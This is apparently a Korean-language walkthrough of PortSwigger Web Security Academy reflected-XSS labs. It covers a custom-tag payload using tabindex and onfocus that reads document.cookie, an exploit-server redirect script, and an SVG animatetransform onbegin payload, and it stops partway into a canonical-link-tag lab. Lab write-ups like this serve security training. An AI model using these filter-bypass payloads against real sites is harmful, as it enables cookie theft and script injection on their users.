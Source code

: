 ## Reflected XSS into HTML context with all tags blocked except custom ones
---

해당 문제는 모든 태그가 막혀있으므로 커스텀 태그를 작성하여 문제를 풀어야합니다.

다음을 입력한 후 해당 요소가 위치하는 `for ''`  부분에 마우스를 대면 alert()가 출력된다.
```html
<xss onmouseover=alert()>
```

현재 태그는 비대화형(non-interactive)이므로 `tabindex` attribute를 사용하여 포커스를 줄 수 있게 만듭니다.

(`tabindex` attribute는 요소의 탭 순서를 정할 때 사용합니다. tabindex가 4인 요소가 존재한다면 그 요소는 tabindex가 3인 요소 이후에 접근할 수 있게 만듭니다. )

만약 `tabindex="1"`로 설정하면 해당 요소를 맨 처음에 포커스를 받도록 만들 수 있습니다.

onfocus와 url fragment와 함께 사용하면 XSS를 실행할 수 있습니다. url fragment만을 사용해서는 특정 요소가 있는 부분으로 페이지를 열 뿐 요소에 포커스를 주지는 못하기에 `tabindex`와 함께 사용하여합니다. 

다음을 검색창에 사용하면 XSS가 발생합니다.
```
<xss+id%3Dx+onfocus%3Dalert%28document.cookie%29+tabindex%3D1>#x
```

exploit server로 가서 script를 작성합니다.
이때 대상이 URL fragement를 통해 이동해야하므로 `location`을 사용합니다.
```html
<script>
location = 'https://0ae900d40356ceaf801c4e550095005d.web-security-academy.net/?search=%3Cxss%20id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```



## Reflected XSS with some SVG markup allowed
---

이전 문제와 크게 다르지 않다.
`animatetransform`, `image`, `svg`, `title` 태그는 사용할 수 있다.

사용할 수 있는 속성은 `onbegin`만 존재한다. `onbegin`는 애니메이션이 시작되기 **직전**에 해당 스크립트를 실행하는 이벤트 핸들러이다.

다음을 search  창에 입력하면 문제가 해결돤다.
```html
<svg><animatetransform onbegin=alert(1)>
```

## Reflected XSS in canonical link tag
---

canonical link는 URL은 서로 다르지만 같은 콘텐츠를 보여주는 경우 하나의 기본이 되는 URL을 정할 떄 사용합니다. 

URL창에 `https://0a310054030ff3e780c495ed000000aa.web-security-academy.net/?asdsd=adsasd`를 입력하고 개발자 도구를 통해 canonical link tag를 보면 다음과 같이 된다.
```html
<link rel="canonical" href="https://0a310054030ff3e780c495ed000000aa.web-security-academy.net/?asdsd=adsasd">
```
